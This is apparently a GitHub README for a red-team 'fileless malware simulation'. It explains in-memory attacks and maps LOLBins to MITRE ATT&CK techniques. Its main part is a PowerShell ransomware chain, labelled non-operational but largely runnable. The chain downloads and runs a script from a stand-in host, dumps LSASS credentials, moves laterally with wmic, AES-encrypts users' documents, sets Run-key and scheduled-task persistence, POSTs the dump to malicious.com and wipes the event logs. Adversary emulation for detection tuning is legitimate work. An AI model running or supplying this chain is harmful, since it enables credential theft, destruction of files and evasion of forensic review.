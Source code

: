 
<div align="center">

# 🧠 **100% Fileless Malware Simulation**
> High-fidelity adversary emulation using in-memory execution and LOLBins

![License](https://img.shields.io/badge/license-MIT-black?style=flat-square)
![Status](https://img.shields.io/badge/build-simulation-lightgrey?style=flat-square)
![Scope](https://img.shields.io/badge/type-red_team-blue?style=flat-square)
![MITRE ATT&CK](https://img.shields.io/badge/framework-MITRE_ATT%26CK-red?style=flat-square)

</div>

---

## ❓ What Is Fileless Malware?

Fileless malware:
- Executes **entirely in RAM**
- Uses native OS tools like `PowerShell`, `rundll32`, and `WMIC`
- Reflectively injects into trusted processes
- Launches via macros, registry scripts, or LOLBins

🔒 **No files are written to disk**, making it hard to detect via signature-based AV.

---

## ✅ Is “100% Fileless” Achievable?

✔️ **Yes — in theory.**  
Chains can involve:
- Macro-based phishing
- [Reflective DLL Injection](https://attack.mitre.org/techniques/T1055/001/)
- Native binary abuse (LOLBins)
- No persistent files

⚠️ **In practice**:
- Temporary files or registry keys are often used
- Payloads live in memory
- Disk-based stubs may exist briefly

---

## 🔍 Why It Matters

- 🛡️ AV = file scanning → fails on memory-only payloads  
- 🧬 Fileless = increased stealth, dwell time, and forensic resistance  
- 🎯 Detection needs: EDRs, memory introspection, or behavioral analytics

---

## ⚠️ Legal & Ethical Use Only

This repository is for:
- Emulating **fileless threat behavior**
- Chaining [LOLBins](https://lolbas-project.github.io/)
- Simulating red/purple team adversarial tradecraft
- Safe adversary emulation in **isolated** environments

> 🔐 Use in **authorized labs only**

## 🔗 MITRE ATT&CK-Aligned PowerShell Simulation

> ⚠️ This is a **non-operational** emulation for training and detection tuning.

<details>
<summary>💥 Simulated Fileless Ransomware Chain</summary>

```powershell
# 🎯 [T1190](https://attack.mitre.org/techniques/T1190/) – Initial Access
$drop = "http://malicious.com/dropper.ps1"
IEX (New-Object Net.WebClient).DownloadString($drop)

# ⚡ [T1059.001](https://attack.mitre.org/techniques/T1059/001/) – PowerShell
$enc = "[Base64EncodedPayload]"
$bin = [System.Convert]::FromBase64String($enc)
[System.Reflection.Assembly]::Load($bin)

# 🔓 [T1548](https://attack.mitre.org/techniques/T1548/) – Privilege Escalation
Start-Process powershell -ArgumentList "-File elevate.ps1" -Verb RunAs

# 🧪 [T1003.001](https://attack.mitre.org/techniques/T1003/001/) – Credential Dumping
Invoke-Expression "rundll32 comsvcs.dll, MiniDump (Get-Process lsass).Id dump.dmp full"

# 🔍 [T1082](https://attack.mitre.org/techniques/T1082/) – Host Discovery
Get-WmiObject Win32_ComputerSystem | Select Name, Domain
Get-NetAdapter | Select Name, MacAddress

# 🌐 [T1021.001](https://attack.mitre.org/techniques/T1021/001/) – Lateral Movement
wmic /node:TargetPC process call create "powershell -File payload.ps1"

# 💣 [T1486](https://attack.mitre.org/techniques/T1486/) – Ransomware Impact
$docs = Get-ChildItem C:\Users\*\Documents -Include *.docx,*.txt -Recurse
foreach ($f in $docs) {
    $content = Get-Content $f.FullName -Raw
    $key = -join ((1..32) | ForEach { [char](Get-Random -Min 65 -Max 90) })
    $aes = New-Object System.Security.Cryptography.AesManaged
    $aes.Key = [Text.Encoding]::UTF8.GetBytes($key.PadRight(32,'X'))
    $aes.IV = New-Object byte[] 16
    $enc = $aes.CreateEncryptor()
    $data = [Text.Encoding]::UTF8.GetBytes($content)
    $cipher = [Convert]::ToBase64String($enc.TransformFinalBlock($data, 0, $data.Length))
    Set-Content -Path $f.FullName -Value $cipher
}

# 📌 [T1547.001](https://attack.mitre.org/techniques/T1547/001/) – Persistence
Set-ItemProperty -Path "HKCU:\...\Run" -Name "Updater" -Value "powershell -File persist.ps1"
schtasks /create /tn "Updater" /tr "powershell -File persist.ps1" /sc onlogon /rl highest

# 📤 [T1041](https://attack.mitre.org/techniques/T1041/) – Exfiltration
$dump = [IO.File]::ReadAllBytes("dump.dmp")
Invoke-WebRequest -Uri "http://malicious.com/exfil" -Method POST -Body ([Convert]::ToBase64String($dump))

# 🧹 [T1070](https://attack.mitre.org/techniques/T1070/) – Defense Evasion
Remove-Item C:\Windows\Temp\* -Force
wevtutil cl Security; wevtutil cl Application; wevtutil cl System
```

</details>

---

## 🧩 LOLBins (Living Off the Land Binaries)

| Binary            | Function                            | Techniques                                          |
|------------------|-------------------------------------|-----------------------------------------------------|
| `rundll32.exe`   | Reflective DLL execution             | [T1218.011](https://attack.mitre.org/techniques/T1218/011/), [T1055.001](https://attack.mitre.org/techniques/T1055/001/) |
| `mshta.exe`      | HTA script execution                 | [T1218.005](https://attack.mitre.org/techniques/T1218/005/) |
| `regsvr32.exe`   | COM script loading                   | [T1218.010](https://attack.mitre.org/techniques/T1218/010/) |
| `wmic.exe`       | Remote execution, WMI abuse          | [T1047](https://attack.mitre.org/techniques/T1047/), [T1021.001](https://attack.mitre.org/techniques/T1021/001/) |
| `certutil.exe`   | Download/decode payloads             | [T1105](https://attack.mitre.org/techniques/T1105/), [T1140](https://attack.mitre.org/techniques/T1140/) |
| `msbuild.exe`    | Compile/execute C# payloads          | [T1127.001](https://attack.mitre.org/techniques/T1127/001/), [T1059.005](https://attack.mitre.org/techniques/T1059/005/) |
| `bitsadmin.exe`  | Background file transfer             | [T1105](https://attack.mitre.org/techniques/T1105/) |
| `schtasks.exe`   | Persistence via task scheduling      | [T1053.005](https://attack.mitre.org/techniques/T1053/005/) |

---

## 📚 Resources

- 🔗 [LOLBAS Project](https://lolbas-project.github.io/)
- 🔗 [MITRE ATT&CK – T1218](https://attack.mitre.org/techniques/T1218/)
- 🔗 [DLL Injection Techniques](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
- 🔗 [LOLGEN Chain Generator](https://lolgen.hdks.org/)
- 🔗 [LOLOL Farm Sandbox](https://lolol.farm/)
- 🔗 [PrintNightmare Exploit Analysis](https://itm4n.github.io/printnightmare-not-over/)
- 🔗 [Wikipedia – Fileless Malware](https://en.wikipedia.org/wiki/Fileless_malware)
